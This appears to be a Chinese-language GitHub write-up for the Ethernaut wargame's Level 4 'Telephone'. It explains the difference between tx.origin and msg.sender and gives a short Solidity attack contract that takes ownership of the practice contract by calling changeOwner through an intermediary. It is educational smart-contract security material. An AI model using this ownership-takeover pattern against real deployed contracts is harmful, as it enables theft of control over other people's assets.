

<div align="center">
<p align="left">(<a href="https://github.com/XuHugo/Ethernaut-Foundry-Solutions/tree/main/solutions">back</a>)</p>


<br><br>
<h1><strong>Ethernaut Level 4 - Telephone</strong></h1>

</div>
<br>

详细解读文章: [Ethernaut Foundry Solutions | Level 4 - Telephone](https://blog.csdn.net/xq723310/)

## 目录

- [目录](#目录)
- [目标](#目标)
- [漏洞](#漏洞)
- [解答](#解答)
- [要点](#要点)

## 目标

需要拿到合约的所有权


## 漏洞

本关卡就是为了理解 `msg.sender` 和 `tx.origin`的不同之处；`Telephone`合约和容易受到攻击，就是因为它使用了 `tx.origin` 检测，谁发送了交易。

- `tx.origin` 是交易的最原始的发起者，就是签署这笔交易的账户；它只能是账户（EOA）。
- `msg.sender` 是指直接调用智能合约功能的帐户或智能合约的地址，因此，如果在一笔交易中有多个调用，那么 `msg.Sender` 将始终是发起最近一次调用的地址，它的值将随着每次新调用而更改。

- **直接调用 (EOA to Contract)**

  - `EOA => Contract` | `tx.origin === msg.sender === EOA`

- **间接调用 (EOA through Contract1 to Contract2)**
  - `EOA => Contract1 => Contract2`
    - For `Contract1`: `tx.origin === msg.sender === EOA`
    - For `Contract2`: `tx.origin === EOA`, `msg.sender === Contract1`

所以要通过此关，我们只需要部署一个合约就可以绕过 `tx.origin != msg.sender`。`tx.origin` 是我们的EOA, `msg.sender` 是我们新部署的合约地址。

## 解答

写一个合约，通过合约去调用 `Telephone` 合约的 `changeOwner`函数，就可以修改 `owner` 了。

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

contract Attack {
    Telephone instance;

    constructor(address fb) {
        instance = Telephone(fb);
    }

    function attack() public {
        instance.changeOwner(msg.sender);
    }
}
```

## 要点

- 使用 `tx.origin` 要特别小心，确认你知道他是谁;
- 如果你希望调用者是一个EOA，你可能需要 `tx.origin` 


<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>
